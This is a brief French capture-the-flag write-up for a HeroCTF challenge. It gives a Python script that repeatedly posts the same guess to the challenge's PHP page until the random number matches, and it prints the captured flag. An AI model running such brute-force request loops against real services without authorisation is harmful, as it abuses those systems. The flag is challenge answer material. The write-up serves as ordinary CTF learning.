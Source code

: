 Ce challenge, comme le dit l'énoncé, est fait pour être bruteforcé !

Le principe est de trouver le nombre entre 0 et 5000 choisi aléatoirement coté serveur.

Pour résoudre ce challenge, on peut par exemple utiliser l'outil Burp Suite ou faire un rapide script en python (on choisit un nombre proche de 5000/2 = 2500 pour une plus grande probabilité):
```python
import requests

url = "http://heroctf.fr:4444/hasard.php"
r = requests.post(url, data={'choice':'2532'})

while 'try again' in r.text:
    try:
        r = requests.post(url, data={'choice':'2532'})
    except ConnectionError as e:
        print("[!] Connexion timed out")

print(r.text)
```
On peut ensuite exécuter le script en cherchant le flag dans l'outpout
```bash
$ python BF_request.py | grep HeroCTF
    <span class="navbar-brand mb-0 h1">HeroCTF</span>
        <h2><br>Wow, so much luck... <br> HeroCTF{brut3f0rc3_w4s_th3_w4y}</h2>         </div>
```
HeroCTF{brut3f0rc3_w4s_th3_w4y}
